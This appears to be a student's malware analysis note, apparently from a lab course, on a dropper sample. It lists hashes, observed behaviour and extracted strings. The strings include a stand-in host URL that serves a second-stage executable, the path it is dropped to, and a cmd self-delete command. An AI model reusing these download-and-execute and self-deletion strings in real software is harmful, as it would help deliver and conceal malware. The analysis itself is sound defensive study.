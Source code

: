 
### Summary
#### Information
1. Name: Malware.Unknown.exe.malz
2. SHA256:  92730427321a1c4ccfc0d0580834daef98121efa9bb8963da332bfd6cf1fda8a
3. MD5: 1d8562c0adcaee734d63f7baaca02f7c

#### Behavior
1. Functions like a dropper
2. Attempts to connect to the internet and download a favicon which is most probably the second stage for this attack
3. The second stage is stored in disk as an executable


### Static Analysis
#### Interesting Strings
```bash
cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & Del /f /q "%s"
http://ssl-6582datamanager.helpdeskbros.local/favicon.ico
C:\Users\Public\Documents\CR433101.dat.exe
Mozilla/5.0
http://huskyhacks.dev
ping 1.1.1.1 -n 1 -w 3000 > Nul & C:\Users\Public\Documents\CR433101.dat.exe
open
C:\Users\Matt\source\repos\HuskyHacks\PMAT-maldev\src\DownloadFromURL\Release\DownloadFromURL.pdb

```


### Dynamic Analysis
1. On execution, it first connects to `Host: ssl-6582datamanager.helpdeskbros.local\r\n`
2. ![[Pasted image 20240409213201.png]]
3. Downloads the favicon.ico and stores at `C:\Users\Public\Documents\CR433101.dat.exe`
4. ![[Pasted image 20240409214834.png]]
5. If unable to download, delete executable from disk
6. ![[Pasted image 20240409215701.png]]
7. 